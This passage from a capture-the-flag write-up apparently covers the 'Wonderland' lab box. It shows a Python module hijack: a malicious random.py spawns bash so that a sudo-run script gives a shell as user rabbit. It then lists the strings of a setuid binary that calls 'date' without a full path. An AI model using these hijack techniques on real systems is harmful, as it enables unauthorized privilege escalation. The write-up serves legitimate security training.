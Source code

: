 Based on this, we found that the `random` module can be `Hijacked`, let's do the following to get a shell as `rabbit`:

1. Create a malicious `random.py` module:

```python
import os
os.system('/bin/bash')
```

2. Hijack the script and gain the shell as `rabbit`:

```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

![[Pasted image 20250410173359.png]]

Nice, we were able to get the shell as `rabbit`, if we check the home of this user, we can find this:

```
rabbit@wonderland:/home/rabbit$ ls
teaParty
```

We got a binary called `teaParty`, if we check the strings of the binary, we can find this:

```bash
strings teaParty
/lib64/ld-linux-x86-64.so.2
2U~4
libc.so.6
setuid
puts
getchar
system
__cxa_finalize
setgid
__libc_start_main
GLIBC_2.2.5
_ITM_deregisterTMCloneTable
__gmon_start__
_ITM_registerTMCloneTable
u/UH
[]A\A]A^A_
Welcome to the tea party!
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
;*3$"
GCC: (Debian 8.3.0-6) 8.3.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
completed.7325
__do_global_dtors_aux_fini_array_entry
frame_dummy
__frame_dummy_init_array_entry
teaParty.c
__FRAME_END__
__init_array_end
_DYNAMIC
__init_array_start
__GNU_EH_FRAME_HDR
_GLOBAL_OFFSET_TABLE_
__libc_csu_fini
```